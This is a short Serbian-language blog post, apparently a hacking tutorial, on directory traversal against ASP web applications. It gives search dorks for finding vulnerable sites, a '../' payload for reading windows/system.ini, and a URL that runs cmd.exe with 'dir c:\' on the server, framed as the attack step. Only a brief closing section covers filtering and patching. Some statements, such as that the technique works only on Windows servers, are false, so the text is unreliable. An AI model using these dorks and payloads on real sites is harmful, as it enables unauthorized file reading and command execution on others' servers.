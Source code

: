 ```yaml
---
title: "Directory Traversal"
publishedAt: "2024-08-15"
summary: "My first post on my new blog."
---
```


# [ Directory Traversal ]

### [ Content ]

[1] Sta je Directory Traversal \
[2] Kako pronaci ranjivost \
[3] Primer napada \
[4] Zastita skripte


[1] Uvod
Directory Traversal je slicna metodi LFI s tim da se jedino moze koristiti na Windows serverima . Nakon pronalazenja ranjivosti ne uploaduje shell nego se izvrasava neka akcija pokretanjem .exe fajlova.

[2] Kako pronaci ranjivost

Neki dorkovi su:
```code
index.asp?page=
index.asp?p=
view.asp?site=
```

Ako naidjemo na ranjiv sajt (primer)
```code
http://vulnsajt.rs/stranica.asp?str=onama.html
```

Brisanjem dela linka onama.html i dodavanjem sufiksa ../../../../../../../../windows/system.iniUkoliko je sajt ranjiv ispisace podatke koji se nalaze u fajlu system.ini (U zavisnosti od servera i foldera u kom je ranjiva skripta stavljena neki podfolder ili tako nesto menja se broj ../ tako da je najbolje da se krene od ../../../../../windows/system.ini pa da se redom dodaju)

[3] Primer napada
Posto je sajt ranjiv vreme je da krenemo u napad. ../../../../../../../../windows/system.ini se zameni sa jednom exekutabilnom adresom npr. ../../../../../../../../Windows/System32/
cmd.exe?/c+dir+c:\

tako da link sada izgleda ovako
```code
http://vulnsajt.rs/page.asp?str=../../../../../../../../Windows/System32/cmd.exe?/c+dir+c:\
```

[4] Zastita skripte
Jedan nacin zastite je da se apdejtuje verzija web server programa, a drugi nacin je da se naprave dobri filter koji ce blokirati napade ako se u linku nadju ../, windows, systen32 itd.
